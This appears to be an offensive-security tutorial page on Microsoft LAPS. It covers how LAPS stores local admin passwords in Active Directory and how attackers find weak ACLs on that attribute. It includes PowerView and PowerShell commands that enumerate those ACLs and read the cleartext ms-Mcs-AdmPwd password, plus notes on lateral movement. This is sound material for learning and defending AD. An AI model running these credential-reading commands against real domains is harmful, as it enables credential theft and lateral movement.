

LAPS is a Microsoft tool designed to manage and secure local administrator account passwords on Windows systems in Active Directory environments. It mitigates security risks associated with shared or static local admin passwords by generating a unique, randomized password for each computer and storing it securely in AD.

<Callout type="info" title="MITRE ATT&CK Mapping">
[T1552.001 - Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/) (Specifically, reading sensitive AD attributes).
</Callout>


---

## Concept & Key Components

<Callout type="danger" title="The Problem">
In many networks, the local administrator account uses the same password across all computers. If one system is compromised, an attacker can laterally move to all systems. Manually maintaining unique passwords is complex and error-prone.
</Callout>

<Callout type="success" title="The Solution">
LAPS automatically generates a unique, randomized password for the local admin account on each computer, stores it in Active Directory, and updates it at regular intervals.
</Callout>

### Architecture Flow



### Key Components

<Steps>
  <Step title="1. Client-Side Extension (CSE)">
    A small software component installed on client machines. It generates the password, applies it to the local admin account, and reports it back to AD.
  </Step>
  <Step title="2. Active Directory Schema Extension">
    Extends the schema to add two new attributes to computer objects:
    * `ms-Mcs-AdmPwd`: Stores the cleartext local admin password.
    * `ms-Mcs-AdmPwdExpirationTime`: Stores the password expiration timestamp.
  </Step>
  <Step title="3. Group Policy (GPO)">
    Configures LAPS settings, such as password policies and expiration intervals.
  </Step>
  <Step title="4. Management Tools">
    Tools like PowerShell or the LAPS UI are used by authorized admins to view and manage the passwords.
  </Step>
</Steps>

---

## Enumeration (Finding Weak ACLs)

<Callout type="warning" title="Finding Who Can Read LAPS Passwords">
By default, only Domain Admins can read the `ms-Mcs-AdmPwd` attribute. However, helpdesk or standard user groups are often mistakenly granted `ReadProperty` permissions on this attribute. Attackers enumerate AD ACLs to find these misconfigurations.

**PowerView:**
*Find OUs where users/groups have read access to the LAPS password.*
```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | % {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier );$_}
```
</Callout>


*In this example, the "student" group can read the LAPS password property.*

---

## Exploitation: Reading the Password

<Callout type="danger" title="Extracting the Clear Text Password">
Once an attacker has compromised an account with the proper ACLs, they can read the cleartext local admin password for a target machine from Active Directory.
</Callout>

<Tabs>
  <Tab title="PowerView">
    ```powershell
    Get-DomainObject -Identity TargetMachine -Properties ms-mcs-admpwd | select -expandproperty ms-mcs-admpwd
    ```
  </Tab>
  <Tab title="Native AD Module">
    ```powershell
    Get-ADComputer -Identity TargetMachine -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
    ```
  </Tab>
  <Tab title="LAPS PowerShell Module">
    ```powershell
    Get-AdmPwdPassword -ComputerName TargetMachine
    ```
  </Tab>
</Tabs>

---

## Post-Exploitation

<Callout type="tip" title="Next Steps">
After retrieving the clear text password, the attacker can use it to log in to the target machine's local administrator account (e.g., via WMI, WinRM, or RDP) and escalate privileges or move laterally without needing to crack any hashes.
</Callout>
